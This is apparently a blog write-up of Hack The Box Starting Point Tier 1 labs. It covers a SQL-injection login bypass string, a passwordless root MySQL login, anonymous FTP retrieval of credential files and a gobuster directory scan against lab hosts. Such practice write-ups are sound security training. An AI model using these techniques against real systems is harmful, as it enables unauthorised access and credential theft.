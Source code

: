 ```yaml
---
layout: post
title: 'HTB | Tier 1'
permalink: /htb/starting-point/tier-1/
---
```


# [](#header-4)Appointment
## [](#header-4)Connection
We can search the IP in the navbar to get a website.
![login](../../../img/htb/starting-point/Screenshot_1.jpg)

We will try a basic sql-injection, login with the user:
{% highlight plain %}
' or '1'='1' #
{% endhighlight %}
For the password we just need to write a letter.

## [](#header-4)Flag
The flag will be in front of us.

# [](#header-4)Sequel
## [](#header-4)Connection
We will use mysql to connect, with the **root** user.
{% highlight plain %}
> mysql -u root -h 10.129.220.35
{% endhighlight %}

## [](#header-4)Flag
Now we are in, we just need to list all the databases and search for the flag.
{% highlight plain %}
MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| htb                |
| information_schema |
| mysql              |
| performance_schema |
+--------------------+
MariaDB [(none)]> use htb;

MariaDB [htb]> show tables;
+---------------+
| Tables_in_htb |
+---------------+
| config        |
| users         |
+---------------+

MariaDB [htb]> select * from config;
{% endhighlight %}

# [](#header-4)Crocodile
## [](#header-4)Connection
We will connect with ftp and the user **anonymous**. There we can download two files, with users and passwords.
{% highlight plain %}
$ ftp 10.129.122.93
{% endhighlight %}
With **gobuster** we can check for others files in the webpage, and we can see a **login.php**:
{% highlight plain %}
$ gobuster dir -u http://10.129.122.93/ -w /usr/share/wordlists/directory-list-2.3-small.txt -x php
{% endhighlight %}


## [](#header-4)Flag
We will have now this page:
<img src="https://raw.githubusercontent.com/zeropio/zeropio.github.io/main/_posts/htb/starting-point/img/Screenshot_2.jpg" weight="100%" />
With the **admin** login we can enter and get our flag.
